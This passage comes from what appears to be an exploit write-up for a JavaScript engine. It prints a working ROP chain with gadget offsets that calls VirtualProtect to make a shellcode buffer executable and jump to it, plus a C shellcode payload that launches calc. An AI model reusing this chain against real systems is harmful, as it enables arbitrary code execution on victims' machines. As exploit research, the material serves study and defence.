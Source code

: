 ### Executing arbitrary native code execution

At this point we can execute a ROP payload of arbitrary size and we want it to dispatch execution to an arbitrary native code payload of our choice. This is pretty easy, standard, and mechanical. We call `VirtualProtect` to make a TypedArray buffer (the one holding the native payload) executable. And then, kindly branches execution there.

Here is the chain used in basic.js:

```JavaScript
const PAGE_EXECUTE_READWRITE = new Int64(0x40);
const BigRopChain = [
    // 0x1400cc4ec: pop rcx ; ret  ;  (43 found)
    Add(JSBase, 0xcc4ec),
    ShellcodeAddress,

    // 0x1400731da: pop rdx ; ret  ;  (20 found)
    Add(JSBase, 0x731da),
    new Int64(Shellcode.length),

    // 0x14056c302: pop r8 ; ret  ;  (8 found)
    Add(JSBase, 0x56c302),
    PAGE_EXECUTE_READWRITE,

    VirtualProtect,
    // 0x1413f1d09: add rsp, 0x10 ; pop r14 ; pop r12 ; pop rbp ; ret  ;  (1 found)
    Add(JSBase, 0x13f1d09),
    new Int64('0x1111111111111111'),
    new Int64('0x2222222222222222'),
    new Int64('0x3333333333333333'),
    new Int64('0x4444444444444444'),
    ShellcodeAddress,

    // 0x1400e26fd: jmp rbp ;  (30 found)
    Add(JSBase, 0xe26fd)
];
```

Instead of coding up my own payload or re-using one on the Internet I figured I would give a shot to [Binary Ninja](https://binary.ninja/)'s [ShellCode Compiler](https://scc.binary.ninja/). The idea is pretty simple, it allows you to write position-independent payloads in a higher level language than machine code. You can use a subset of C to write it, and then compile it down to the architecture you want.

```C
void main() {
    STARTUPINFOA Si;
    PROCESS_INFORMATION Pi;
    memset(&Si, 0, sizeof(Si));
    Si.cb = sizeof(Si);
    CreateProcessA(
        NULL,
        "calc",
        NULL,
        NULL,
        false,
        0,
        NULL,
        NULL,
        &Si,
        &Pi
    );
    ExitProcess(1337);
}
```
